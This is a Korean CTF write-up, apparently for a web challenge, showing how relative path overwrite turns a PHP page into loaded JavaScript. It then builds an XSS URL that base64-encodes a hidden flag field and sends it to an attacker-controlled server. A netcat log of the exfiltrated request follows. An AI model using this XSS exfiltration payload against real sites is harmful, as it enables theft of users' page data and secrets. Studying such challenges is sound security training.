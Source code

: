 ```php
echo "<input name='piece' value='".$secret."' type='hidden'>";
```

위의 코드는 플래그가 들어갈 것 같이 생긴 부분이다.

또한, 가운데 주석 부분에 입력한 값이 들어간다.

```php
echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; 
```

하지만 <,>를 사용할 수 없으므로 다른 방법을 생각해봤으며, 재밌는 부분을 발견하였다.

```tml
<!-- 
/* * *  Power By 0xd0ff9 * * * 
--> 
... ...
echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; 
... ...
<!-- Infact, ?debug will help you learn expression to build Grand Line ( Ex: !<>+-*/ ) 
```

url에 \*/ ~~~ /\* 을 통해 javascript 코드를 만들 수 있다.

하지만 그러기 위해서는 이를 javascript로써 로드를 해야하는데, 그것을 위해서 RPO를 이용하였다.

```php
<script src="js/jquery.min.js"></script> 
```

script 로드 시 상대주소로 호출을 하므로 index.php가 아닌 index.php/를 요청해주므르써, index.php가 script로써 로드가 된다. 

> http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/

이 같은 방법을 이용하여 XSS쿼리를 생성해주면 다음과 같다.

```
http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function(){new%20Image().src=`//[MY SERVER]/`%2bbtoa(document.getElementsByName(`piece`)[0].value)};function%20a()%7B%7D;a(/*/*
```

이제 이를 위 URL을 Bigmom에게 보내주면 다음과 같은 결과를 받으며 플래그를 얻을 수 있다.

```bash
$ nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [=] port 80 [tcp/http] accepted (family 2, sport 39946)
GET /WW91IGFyZSBvbiBuZXcgd29ybGQsIGZsYWc6IE1lZVB3bkNURntXZWxjb21lX3RvX05ld19Xb3JsZH0= HTTP/1.1
Host: [MY SERVER]
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/69.0.3477.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function()%7Bnew%20Image().src=%60//[MY SERVER]/%60%2bbtoa(document.getElementsByName(%60piece%60)[0].value)%7D;function%20a()%7B%7D;a(/*/*
Accept-Encoding: gzip, deflate
$ ipython
Python 2.7.12 (default, Nov 20 2017, 18:23:56)
Type "copyright", "credits" or "license" for more information.

IPython 2.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

```